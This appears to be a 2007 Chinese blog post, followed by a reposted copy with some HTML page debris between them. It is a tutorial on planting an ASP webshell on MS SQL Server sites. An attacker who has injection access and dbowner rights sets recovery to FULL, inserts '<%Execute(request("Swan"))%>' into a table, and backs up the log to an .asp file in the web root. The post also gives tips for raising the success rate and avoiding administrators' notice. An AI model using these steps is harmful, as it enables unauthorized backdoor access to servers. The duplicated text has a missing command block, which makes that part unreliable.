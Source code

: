 ```yaml
---
title: LOG备份拿SHELL
description: 作者:小七dbowner通过注射得到一个shell应该不是什么难事情了，比较麻烦的是就算利用增量备份，仍然有很多不确定的因素，如果之前别人有过什么错误的写入信息，可能备份出来得到的还是一些不能用的500错误，如何能够提高成功率及重用性呢？如果单从调整增量备份的方式来看，尽管能够达到一些效果，但是方法比较复杂而且效果不明显。加上关于重用性的考虑，例如多次备份的成功率，backupdatabase的方法并不太适用。这里将要讲述的是另外一个备份的方法，导出日志文件到web目录来获得shell。获...
date: 2007-05-02 21:23:46
category: 技术文章
tags: ['技术类']
post_id: 9
alias: 9
ViewNums: 5817
---
```


作者: [小七](http://xiaoqi.80.hk/user.asp?act=view&id=1)

dbowner 通过注射得到一个shell应该不是什么难事情了，比较麻烦的是就算利用增量备份，仍然有很多不确定的因素，如果之前别人有过什么错误的写入信息，可能备份出来得到的还是一些不能用的500错误，如何能够提高成功率及重用性呢？如果单从调整增量备份的方式来看，尽管能够达到一些效果，但是方法比较复杂而且效果不明显。加上关于重用性的考虑，例如多次备份的成功率，backupdatabase的方法并不太适用。这里将要讲述的是另外一个备份的方法，导出日志文件到web目录来获得shell。
获得webshell首先要知道物理路径。关于物理路径的暴露有很多方法，注入也可以得到，就不再多说。值得注意的是，如果数据库和web分离，这样肯定得不到webshell，备份出来的东西可以覆盖任何文件，一些关于开始菜单的想法还是有效的，只要注意扩展名就好。扯远了，反正如果数据库和web在一块的，你就有机会，反之还是想其他的办法吧。
然后你要得到当前的权限和数据库名。如果是sysadmin当然没有必要做很复杂的事情，dbowner足矣，public则不行。当前打开的库名用一个db_name()就可以得到，同样很简单。
默认的情况是，一般选择的数据库故障还原类型都是简单，这时候不能够对日志文件进行备份。然而我们都是dbowner了，还有什么不能做的呢，只要修改一下属性就可以。由于不能去企业管理器中修改，只有用一段SQL语句，很简单的，这样就可以：

alterdatabaseXXXXsetRECOVERYFULL

其中XXXX是你得到的数据库的名字，执行过后就可以备份日志了。这种修改是破坏性的，因为你不知道以前的故障还原模式是什么，细心的管理员看到异样，可能就要开始起疑心。如果之前你能得到数据库的状态，最好还是在备份完以后把这个数据库的属性改回来。

剩下的事情就是怎样让数据库用最原始的方式记录下你的数据了。这一点和backupdatabase中设定表名为image的问题相对应，如果你只是建立一个<%%>之类的表，日志里面的记录还是以松散的格式记录的，也就是<%%>，没有任何效果。通过实际的测试，发现还是可以通过与backupdatabase类似的方式记录进去，如下：

createtablecmd(aimage)
insertintocmd(a)values('<%Execute(request("Swan"))%>')
backuplogXXXXtodisk='c:xxx2.asp'

这样你已经得到一个webshell了。

到这里就完了么？没有，呵呵，我们继续。
到这里有两个分支方向，第一个，让注入的时候不出现单引号，太简单了，我都懒得写；第二个，减小这个webshell的长度以及提高成功率。下面的方法就是讨论第二个分支问题的，同样适用于backupdatabase的减小。
首先是初始化这个日志。

backuplogXXXXtodisk='c:caonima'withinit

这样有点类似于增量备份的第一步，不过有点不同的是，你做了这个以后，你备份出来的可用的shell是固定的。这一点比较重要，因为有了这一步，不管管理员在数据库里面做了什么扰乱你backdatabase的手脚，或者你之前有多少混蛋（你肯定会这么想的）弄了些你不喜欢的东西，都没有关系，甚至你做过以后，别人在后面再按照你的方法来一次，还是会成功，这对于偶尔出现的反复，比如对方机器重装但是数据库和代码没变，有不小的帮助。
然后是调整一下backup中各个语句的顺序。通过第一点，大概的步骤已经确定下来了，那就是：

alterdatabaseXXXXsetRECOVERYFULL
backuplogXXXXtodisk='c:Sammy'withinit
createtablecmd(aimage)
insertintocmd(a)values('<%Execute(request("Swan"))%>')
backuplogXXXXtodisk='c:xxx2.asp'

这样不好，感觉上多了一条没用的东西。

createtablecmd(aimage)

确实有点讨厌，不过这句是必要的，只好调整一下位置，弄到其他地方去。调换一下顺序似乎还可以小一点，对于backupdatabase中的增量情况同样是可以的，backupdatabase甚至可以仅仅在update后马上备份，不过由于涉及到了数据的存储格式，情况很复杂，这里不讨论。调整后的是：

alterdatabaseXXXXsetRECOVERYFULL
createtablecmd(aimage)
backuplogXXXXtodisk='c:Sammy'withinit
insertintocmd(a)values('<%Execute(request("Swan"))%>')
backuplogXXXXtodisk='c:xxx2.asp'

成功的话，备份出来的shell（上面的2.asp）有78.5k，文件长度固定的是80,384字节。很挑剔的朋友也可以接受了吧，当然用这个来生成一个干净的木马也可以&mdash;&mdash;这本来就是顶端cs木马的s端，很通用的。
进一步的，虽然不能再次缩小这个木马了，但是可以让垃圾文件少一点，那就是加上response.end，这样后面的垃圾数据就不再显示。所有的垃圾数据，你可以统计一下，大约只有6~12k，也就是说，<%Execute(request("Swan"))%>这个数据大约在2.asp文件偏移6xxx到12xxx附近，最好的情况似乎在6k左右，而且这个概率分布比较靠前，很少见到10k以上。这还是比较令人满意的。

目前用backuplog来测试的成功率是100%，就这样分析似乎不应该有失败的情况。无论如何，这个比backupdatabase好太多了。
```html
<img src="eWebEditor_v280_Free/SysImage/file/rar.gif" onmouseover="javascript:if(this.width>520)this.width=520;" style="CURSOR: hand" onclick=javascript:window.open(this.src); onload="javascript:if(this.width>520)this.width=520;" align=absmiddle border="0"><A HREF="/userfile/eviloctal.org/zhouzhen/edit/2006329144551316.rar" TARGET=_blank>GetWebShell.rar</A>
</font></div>
<div align="right">【字体大小：<a onclick="main.size=3" style="cursor:hand;">大</a>
<a onclick="main.size=2" style="cursor:hand;">中</a>
<a onclick="main.size=1" style="cursor:hand;">小</a>】
【<a onclick="allinfo.select();document.execCommand('Copy');alert('复制完成')" style="cursor:hand;">复制源文件</a>】
<TEXTAREA name="allinfo" id="allinfo" style="width:0;height:0xp">
```
[转载]backup log to get a webshell
作者：admin [bAck iN BLack]
来源：[http://zhouzhen.eviloctal.org/Look.asp?LogID=822](http://zhouzhen.eviloctal.org/Look.asp?LogID=822 "http://zhouzhen.eviloctal.org/Look.asp?LogID=822")
dbowner通过注射得到一个shell应该不是什么难事情了，比较麻烦的是就算利用增量备份，仍然有很多不确定的因素，如果之前别人有过什么错误的写入信息，可能备份出来得到的还是一些不能用的500错误，如何能够提高成功率及重用性呢？如果单从调整增量备份的方式来看，尽管能够达到一些效果，但是方法比较复杂而且效果不明显。加上关于重用性的考虑，例如多次备份的成功率，backup database的方法并不太适用。这里将要讲述的是另外一个备份的方法，导出日志文件到web目录来获得shell。
获得webshell首先要知道物理路径。关于物理路径的暴露有很多方法，注入也可以得到，就不再多说。值得注意的是，如果数据库和web分离，这样肯定得不到webshell，备份出来的东西可以覆盖任何文件，一些关于开始菜单的想法还是有效的，只要注意扩展名就好。扯远了，反正如果数据库和web在一块的，你就有机会，反之还是想其他的办法吧。
然后你要得到当前的权限和数据库名。如果是sysadmin当然没有必要做很复杂的事情，dbowner足矣，public则不行。当前打开的库名用一个db_name()就可以得到，同样很简单。
默认的情况是，一般选择的数据库故障还原类型都是简单，这时候不能够对日志文件进行备份。然而我们都是dbowner了，还有什么不能做的呢，只要修改一下属性就可以。由于不能去企业管理器中修改，只有用一段SQL语句，很简单的，这样就可以：
```sql
alter database XXXX set RECOVERY FULL
```
其中XXXX是你得到的数据库的名字，执行过后就可以备份日志了。这种修改是破坏性的，因为你不知道以前的故障还原模式是什么，细心的管理员看到异样，可能就要开始起疑心。如果之前你能得到数据库的状态，最好还是在备份完以后把这个数据库的属性改回来。

剩下的事情就是怎样让数据库用最原始的方式记录下你的数据了。这一点和backup database中设定表名为image的问题相对应，如果你只是建立一个<%%>之类的表，日志里面的记录还是以松散的格式记录的，也就是< % % >，没有任何效果。通过实际的测试，发现还是可以通过与backup database类似的方式记录进去，如下：
```sql
create table cmd (a image)
insert into cmd (a) values ('<%Execute(request("Swan"))%>')
backup log XXXX to disk = 'c:xxx2.asp'
```
这样你已经得到一个webshell了。

到这里就完了么？没有，呵呵，我们继续。
到这里有两个分支方向，第一个，让注入的时候不出现单引号，太简单了，我都懒得写；第二个，减小这个webshell的长度以及提高成功率。下面的方法就是讨论第二个分支问题的，同样适用于backup database的减小。
首先是初始化这个日志。
```sql
backup log XXXX to disk = 'c:caonima' with init
```
这样有点类似于增量备份的第一步，不过有点不同的是，你做了这个以后，你备份出来的可用的shell是固定的。这一点比较重要，因为有了这一步，不管管理员在数据库里面做了什么扰乱你back database的手脚，或者你之前有多少混蛋（你肯定会这么想的）弄了些你不喜欢的东西，都没有关系，甚至你做过以后，别人在后面再按照你的方法来一次，还是会成功，这对于偶尔出现的反复，比如对方机器重装但是数据库和代码没变，有不小的帮助。
然后是调整一下backup中各个语句的顺序。通过第一点，大概的步骤已经确定下来了，那就是：
```sql
alter database XXXX set RECOVERY FULL
backup log XXXX to disk = 'c:Sammy' with init
create table cmd (a image)
insert into cmd (a) values ('<%Execute(request("Swan"))%>')
backup log XXXX to disk = 'c:xxx2.asp'
```
这样不好，感觉上多了一条没用的东西。
```sql
create table cmd (a image)
```
确实有点讨厌，不过这句是必要的，只好调整一下位置，弄到其他地方去。调换一下顺序似乎还可以小一点，对于backup database中的增量情况同样是可以的，backup database甚至可以仅仅在update后马上备份，不过由于涉及到了数据的存储格式，情况很复杂，这里不讨论。调整后的是：

成功的话，备份出来的shell（上面的2.asp）有78.5k，文件长度固定的是80,384字节。很挑剔的朋友也可以接受了吧，当然用这个来生成一个干净的木马也可以&mdash;&mdash;这本来就是顶端cs木马的s端，很通用的。
进一步的，虽然不能再次缩小这个木马了，但是可以让垃圾文件少一点，那就是加上response.end，这样后面的垃圾数据就不再显示。所有的垃圾数据，你可以统计一下，大约只有6~12k，也就是说，<%Execute(request("Swan"))%>这个数据大约在2.asp文件偏移6xxx到12xxx附近，最好的情况似乎在6k左右，而且这个概率分布比较靠前，很少见到10k以上。这还是比较令人满意的。

目前用backup log来测试的成功率是100%，就这样分析似乎不应该有失败的情况。无论如何，这个比backup database好太多了。

